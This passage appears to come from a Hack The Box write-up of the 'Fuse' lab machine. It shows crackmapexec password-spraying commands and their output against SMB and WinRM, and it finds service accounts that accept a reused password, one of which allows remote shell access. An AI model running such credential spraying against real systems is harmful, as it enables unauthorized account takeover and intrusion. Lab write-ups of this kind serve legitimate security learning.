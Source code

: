 ```shell
cfx:  ~/Documents/htb/fuse
→ cme smb 10.10.10.193 -u rpc_users.txt -p '$fab@s3Rv1ce$1' --continue-on-success
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
```

Great ! So we have two users using this password. Rather than jumping to enumerating SMB shares of these users let's check if any of the user is allowed to connect remotely using `WinRM`

Again using crackmapexec we can check it:

```shell
cfx:  ~/Documents/htb/fuse
→ cme winrm 10.10.10.193 -u rpc_users.txt -p '$fab@s3Rv1ce$1' --continue-on-success
WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1
```
